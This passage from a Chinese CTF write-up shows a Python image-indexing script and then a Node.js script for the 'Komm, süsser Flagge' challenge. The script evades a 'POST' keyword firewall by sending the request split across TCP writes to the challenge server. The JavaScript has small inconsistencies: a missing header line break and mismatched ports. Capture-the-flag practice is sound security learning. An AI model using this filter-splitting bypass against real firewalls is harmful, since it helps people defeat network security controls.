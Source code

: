 压缩程序：
```python
from PIL import Image

def convert_to_indexed(image_path):
    # 打开图像
    image = Image.open(image_path)

    # 转换为索引色彩模式
    image = image.convert("P", palette=Image.ADAPTIVE, colors=256)

    # 保存转换后的图像
    output_path = image_path.replace(".png", "_indexed.png")
    image.save(output_path)
    print("转换完成！保存为", output_path)
## 调用示例
image_path = "output.png"  # 替换为你的图像路径
convert_to_indexed(image_path)
```

我不会 Python，这段代码也是 ChatGPT 写的，但是聊天记录我找不到了。
## Komm, süsser Flagge
### 我的 POST，我的 P

多次询问 ChatGPT 无果。

尝试过把 POST 改成小写，发现不认。

尝试用二进制发送，发现本来就是二进制发送。

最后百度 CTF 防火墙常见绕过方式，找到 https://zhuanlan.zhihu.com/p/165159020

发现可以拆流量包。

```javascript
const net = require('net')

const token = `你的偷啃`

const req = 
`OST / HTTP/1.1\r\n` +
`Host: 202.38.93.111:18081\r\n` +
`Content-Type: application/x-www-form-urlencoded` +
`Accept: */*\r\n` +
`Content-Length: ${encodeURI(token).length}\r\n\r\n` +
encodeURI(token) + '\r\n\r\n'

const socket = net.createConnection(18080, '202.38.93.111')

socket.on('data', async data => {
    console.log(data.toString())
})

socket.on('connect', () => {
    socket.write('P')
    socket.write(req)
})
```
